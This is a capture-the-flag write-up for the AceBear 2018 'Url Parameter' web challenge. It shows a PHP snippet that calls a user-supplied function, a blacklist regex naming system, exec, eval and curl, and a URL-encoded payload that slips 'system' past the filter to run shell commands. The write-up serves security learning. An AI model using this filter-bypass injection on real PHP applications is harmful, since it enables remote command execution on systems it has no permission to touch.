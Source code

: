 ```yaml
---
layout: post
title: Url Parameter
category: AceBear 2018
---
```




Hello guys, just wake up after 48h of fighting, i will try to make write up for all web task as its all cleaned Here :D

So lets start with this easy task (at least look easy for me  :p) 

First look at robots.txt give us some hint : `http://35.196.45.11:8080/robots.txt`

give us :

```
# you know de wae ma queen
User-Agent: *
Disallow: /?debug
```

then check 

`
http://35.196.45.11:8080/?debug
`
will show us simple php code , we need to send something like `http://35.196.45.11:8080/system=id` where system is the $key and id is the $val

```
$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
	if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
	list($key, $val) = each($_GET);
	$key($val);
}
```

almost here all function that can be used filtred (open & read & _ ) will filter also many other function

so here make me stuck here

but my friend mention something that maked this almost done 'encode'
As here the filter work on ```$_SERVER["REQUEST_URI"]``` and the in final step we have ```$_GET``` so if we encode our data it end decoded in   ```each($_GET); ``` but not in ```$_SERVER["REQUEST_URI"]```

So the plan is clear here, encode our data to bypass filter and run any function :D

![image](https://user-images.githubusercontent.com/7364615/35493904-ffb66d3c-04b6-11e8-8c82-25acb5c3c60b.png)

lets try it now :

`http://35.196.45.11:8080/%73%79%73%74%65%6d=ls`

![image](https://user-images.githubusercontent.com/7364615/35493920-219f6c1e-04b7-11e8-8660-9d4e6a53dfcd.png)

Then final step read flag file :D 

![image](https://user-images.githubusercontent.com/7364615/35493934-4ac2221c-04b7-11e8-88c0-5b0ca3caf17b.png)

`
AceBear{I_did_something_stupid_with_url}
`

Thanks guys , will try to make write up (BearShare & BearShare 2 & Tet shopping) ;)

